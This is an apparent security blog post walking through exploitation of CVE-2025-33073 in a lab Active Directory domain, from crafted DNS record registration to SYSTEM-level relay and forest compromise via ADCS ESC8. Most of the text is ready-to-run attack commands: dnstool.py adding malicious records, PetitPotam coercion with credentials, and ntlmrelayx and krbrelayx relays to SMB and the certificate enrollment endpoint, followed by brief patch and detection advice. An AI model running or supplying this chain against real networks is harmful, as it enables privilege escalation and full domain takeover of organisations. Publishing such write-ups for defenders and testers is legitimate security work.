# Sysadmins in Shambles (CVE-2025-33073)

Recently, a post by [synacktiv](https://www.synacktiv.com/en/publications/ntlm-reflection-is-dead-long-live-ntlm-reflection-an-in-depth-analysis-of-cve-2025) demonstrated the capabilities of [CVE-2025-33073](https://nvd.nist.gov/vuln/detail/CVE-2025-33073) which allows for an authenticated domain user to escalate to `NT AUTHORITY\SYSTEM` on any machine, given the following conditions:

* The target machine must `not` have SMB Signing enabled.
* The attacker `must` be able to create DNS records in the domain

Both of which are default configurations in many Active Directory environments, with the exception of Domain Controllers which typically have SMB signing enabled by default.

This post aims to highlight possible exploitation scenarios of this vulnerability, but will not go into detail about the vulnerability itself. For more information, please refer to the [synacktiv post](https://www.synacktiv.com/en/publications/ntlm-reflection-is-dead-long-live-ntlm-reflection-an-in-depth-analysis-of-cve-2025).

<div class="toc-container">
    <button class="toc-toggle" onclick="toggleToc()">Table of Contents</button>
    <div class="toc-content" id="tocContent">
        <ol>
            <li>
                <a href="#context">Context</a>
            </li>
            <li>
                <a href="#reflecting-ntlm-to-self">Reflecting NTLM to Self</a>
                <ul>
                    <li><a href="#registering-dns">Registering DNS</a></li>
                    <li><a href="#performing-the-relay">Performing the Relay</a></li>
                </ul>
            </li>
            <li>
                <a href="#reflecting...-kerberos">Reflecting... Kerberos?</a>
            </li>
            <li>
                <a href="#reflecting-to-http-adcs">Reflecting to HTTP (ADCS)</a>
                <ul>
                    <li><a href="#kerberos-authentication-coercion">Kerberos Authentication Coercion</a></li>
                    <li><a href="#relay-to-esc8">Relay to ESC8</a></li>
                </ul>
            </li>
            <li>
                <a href="#summary--patches">Summary & Patches</a>
            </li>
            <li>
                <a href="#mitigations--detections">Mitigations & Detections</a>
                <ul>
                    <li><a href="#monitor-abnormal-dns-records">Monitor Abnormal DNS Records</a></li>
                </ul>
            </li>
        </ol>
    </div>
</div>

## Context

The `PALACE-DC.jess.kingdom` domain controller has SMB signing enabled, and serves as the DNS server for the domain. The `SCRIPTORIUM.jess.kingdom` machine is a domain-joined machine that does not have SMB signing enabled. The attacker has the ability to create DNS records in the domain.

Furthermore, the DC has Active Directory Certificate Services (ADCS) installed and is vulnerable to `ESC8`.



The attacker's IP address is: `198.51.100.5`.

## Reflecting NTLM to Self

> NTLM Reflection can be thought of as an NTLM relay to self, which should not be possible.

[CVE-2025-33073](https://nvd.nist.gov/vuln/detail/CVE-2025-33073) makes use of a maliciously crafted DNS record to coerce `LSASS.exe` (running as `SYSTEM`) into authenticating to an attacker-controlled server with a `SYSTEM` token. An example of such a hostname is `localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA` which will cause the server to perform "local" NTLM authentication to `localhost`.

The above DNS record can be used "as-is" for all domain-joined machines because `localhost` always triggers the localhost detection logic, this relieves the attacker of having to create a DNS record for each machine they want to exploit. The attacker can simply create a DNS record with the hostname `localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA` and point it to their own IP address.

The downside to this approach is that `Kerberos` authentication will not be possible, as the `Negotiate` package will choose `NTLM` over `Kerberos`. For the following attack, we will be targeting the `SCRIPTORIUM.jess.kingdom` machine.

### Registering DNS

To register the DNS record, we can use [dnstool.py](https://github.com/dirkjanm/krbrelayx/blob/master/dnstool.py):

```bash
/opt/tools/krbrelayx/dnstool.py -u 'jess.kingdom\Doros_ARCHIVON' -p 'bO3n21E6rc' 10.3.20.31 -a 'add' -r 'localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA' -d '198.51.100.5'
```



Alternatively, we may register the DNS record for the particular machine:

```bash
/opt/tools/krbrelayx/dnstool.py -u 'jess.kingdom\Doros_ARCHIVON' -p 'bO3n21E6rc' 10.3.20.31 -a 'add' -r 'scriptorium1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA' -d '198.51.100.5'
```



After waiting for the DNS record to propagate, we can verify that the DNS record has been created:

```
┌──(kali㉿kali)-[~/oops]
└─$ dig localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA.jess.kingdom @PALACE-DC.jess.kingdom
...
localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA.jess.kingdom. 180 IN A 198.51.100.5
...

┌──(kali㉿kali)-[~/oops]
└─$ dig SCRIPTORIUM1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA.jess.kingdom @PALACE-DC.jess.kingdom
...
SCRIPTORIUM1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA.jess.kingdom. 180 IN A 198.51.100.5
...
```

### Performing the Relay

In a typical NTLM relay scenario, you could always coerce SMB authentication from a target machine using a tool such as [PetitPotam](https://github.com/topotam/PetitPotam). However, there are 2 problems: self-relay is not possible, and the relayed authentication will be from the machine account (`SCRIPTORIUM$`), which does not have local administrator privileges to themselves.

Attempting to perform the relay traditionally will result in an authentication failure, as the target machine will attempt to authenticate to itself, which is not possible:





However, coercing authentication to the maliciously crafted DNS name will "trick" the target machine into thinking that it's authenticating to itself locally. Furthermore, a `SYSTEM` token will be used to authenticate, which will allow us to perform a SAM dump.

```
/opt/tools/PetitPotam/PetitPotam.py -d 'jess.kingdom' -u 'Doros_ARCHIVON' -p 'bO3n21E6rc' localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA SCRIPTORIUM.jess.kingdom
```



```
ntlmrelayx.py -t "smb://SCRIPTORIUM.jess.kingdom" -smb2support
```



## Reflecting... Kerberos?

In the case that NTLM authentication is disabled on the forest, we can still use this primitive to relay authentication to the target machine using Kerberos. This can be done using [krbrelayx.py](https://github.com/dirkjanm/krbrelayx/blob/master/krbrelayx.py) with slight modifications that can be found in the original blog post by [synacktiv](https://www.synacktiv.com/en/publications/ntlm-reflection-is-dead-long-live-ntlm-reflection-an-in-depth-analysis-of-cve-2025).

Attempting to relay Kerberos authentication using the `localhost` DNS record will not work as mentioned earlier.





Instead, we need to use the malicious DNS record that we created for the specific machine (`SCRIPTORIUM1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA`):

```
/opt/tools/PetitPotam/PetitPotam.py -d 'jess.kingdom' -u 'Doros_ARCHIVON' -p 'bO3n21E6rc' SCRIPTORIUM1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA SCRIPTORIUM.jess.kingdom
```



```
/opt/tools/krbrelayx/krbrelayx.py -t 'SCRIPTORIUM.jess.kingdom' -smb2support
```



## Reflecting to HTTP (ADCS)

> This primitive is not unique to CVE-2025-33073, and is possible as long as Kerberos authentication coercion can be made. See: [here](https://www.thehacker.recipes/ad/movement/kerberos/relay#abuse-from-dns-poisoning)

If we attempt the same relay to the domain controller, we will not be able to perform the relay as the domain controller has SMB signing enabled. The following DNS record was also added:

```
/opt/tools/krbrelayx/dnstool.py -u 'jess.kingdom\Doros_ARCHIVON' -p 'bO3n21E6rc' 10.3.20.31 -a 'add' -r 'palace-dc1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA' -d '198.51.100.5'
```



Traditionally, it's not been possible to abuse ESC8 to compromise the Certificate Authority (CA) as the HTTP enrollment endpoint is on the CA - and that would be a violation of the "no self-relay" rule. 

However, as mentioned briefly in [the previous blog post](https://blog.async.sg/sincon-2025-adcs-relay.html) - you can still relay to ESC8 using Kerberos. In addition to that, relaying with Kerberos breaks the "no self-relay" rule, as it does not contain a MIC. This allows us to compromise the `CA`, and the entire forest shortly after.

### Kerberos Authentication Coercion

Using the same technique as before, we can coerce Kerberos authentication to the domain controller using the malicious DNS record:

```
/opt/tools/PetitPotam/PetitPotam.py -d 'jess.kingdom' -u 'Doros_ARCHIVON' -p 'bO3n21E6rc' palace-dc1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA palace-dc.jess.kingdom
```



### Relay to ESC8

Now, we can relay the Kerberos authentication to the domain controller's HTTP enrollment endpoint using `krbrelayx.py`:

```
/opt/tools/krbrelayx/krbrelayx.py --target 'http://PALACE-DC.jess.kingdom/certsrv/certfnsh.asp' --adcs --template 'DomainController' --victim 'PALACE-DC$'
```



Using the generated certificate, we can very simply compromise the forest (as the `CA` is also the `DC`).



### Summary & Patches

Details can be found at these links:
* [https://www.synacktiv.com/en/publications/ntlm-reflection-is-dead-long-live-ntlm-reflection-an-in-depth-analysis-of-cve-2025](https://www.synacktiv.com/en/publications/ntlm-reflection-is-dead-long-live-ntlm-reflection-an-in-depth-analysis-of-cve-2025)
* [https://www.tenable.com/blog/microsofts-june-2025-patch-tuesday-addresses-65-cves-cve-2025-33053](https://www.tenable.com/blog/microsofts-june-2025-patch-tuesday-addresses-65-cves-cve-2025-33053)
* [https://googleprojectzero.blogspot.com/2021/10/using-kerberos-for-authentication-relay.html](https://googleprojectzero.blogspot.com/2021/10/using-kerberos-for-authentication-relay.html)
* [https://nvd.nist.gov/vuln/detail/CVE-2025-33073](https://nvd.nist.gov/vuln/detail/CVE-2025-33073)

In order to mitigate this vulnerability, it is recommended to install the [latest security updates](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2025-33073) and enable SMB signing on all machines in the domain.

Additionally, monitor for abnormal DNS record creation such as those with extremely long names and the string `localhost` in them. You may also find some lazy threat actors using the: `localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA` DNS record  name, so you can monitor for that as well.